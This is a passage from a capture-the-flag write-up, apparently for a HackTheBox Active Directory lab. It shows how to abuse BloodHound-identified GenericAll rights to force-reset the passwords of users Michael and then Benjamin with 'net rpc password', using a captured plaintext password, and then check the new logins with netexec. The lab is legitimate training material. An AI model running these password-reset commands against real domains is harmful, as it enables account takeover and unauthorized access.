





 Olivia has GenericAll rights over the user Michael , that means that we can get  complete control over the user.
  
 In BloodHound , the Help option, which can be accessed by right-clicking on the edge between Olivia and Michael , shows that a Force Change Password action can be performed on Michael.  So let's try to change the Michael pass.



 ```bash
 $ net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
```



 Now we can see if user Michael have “Outbound Object Control” over another user.

 

 As we can see Michael user can change the password like Olivia user over Michael like the previous step. So we can try to change the Bejamin user password like before.
 ```bash
 $ net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.10.11.42"
```



 We can check that the user michael and benjamin now have de new password
 ```bash
$ netexec smb 10.10.11.42 -u michael -p 'newP@ssword2022'
$ netexec smb 10.10.11.42 -u benjamin -p 'newP@ssword2022'
```




[Back](README.md)